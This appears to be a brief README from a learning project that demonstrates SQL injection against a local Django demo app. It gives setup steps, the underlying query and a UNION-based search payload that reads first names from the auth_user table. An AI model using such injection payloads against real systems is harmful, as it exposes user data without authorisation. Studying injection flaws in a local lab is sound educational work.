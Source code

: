 How to perform a SQL Injection Attack

Steps

- pip install Django
- python manage.py runsever
- http://127.0.0.1:8000/items/search
- SELECT name FROM orders_item WHERE name LIKE '%' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'
- Search for "z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '"

Adding a test line. Just for learning reasons. 
